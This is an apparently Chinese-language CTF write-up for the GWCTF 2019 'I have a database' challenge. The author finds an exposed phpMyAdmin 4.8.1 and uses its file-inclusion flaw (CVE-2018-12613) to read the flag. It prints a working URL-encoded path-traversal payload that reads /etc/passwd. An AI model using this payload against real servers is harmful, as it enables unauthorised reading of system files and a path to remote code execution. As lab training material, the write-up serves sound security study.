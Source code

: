 # [GWCTF 2019]我有一个数据库

## 知识点

`phpmyadmin`

`文件包含漏洞`

## 解题

进入首页提示有数据库

![](./img/[GWCTF 2019]我有一个数据库-1.png)

源码也没啥信息，先看看有没有`www,zip` `robots.txt` `.git`泄露之类的

发现有个`robots.txt`，提示了`phpinfo.php`

![](./img/[GWCTF 2019]我有一个数据库-2.png)

进入`phpinfo.php`没有找到什么东西

![](./img/[GWCTF 2019]我有一个数据库-3.png)

因为`buuctf`扫目录一般会奔溃，只能想想其他的路径，比如`phpmyadmin`试了一下发现果然有

![](./img/[GWCTF 2019]我有一个数据库-4.png)

没有登录就进入了主界面，发现`phpmyadmin`的版本为`4.8.1`，不是最新版，搜索一下`phpmyadmin4.8.1`的漏洞，发现有一个`文件包含漏洞(CVE-2018-12613)`且能进一步实现`RCE`

利用`payload`

```
/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```

![](./img/[GWCTF 2019]我有一个数据库-5.png)

直接找`flag`，在根目录下`/flag`就找到了

![](./img/[GWCTF 2019]我有一个数据库-6.png)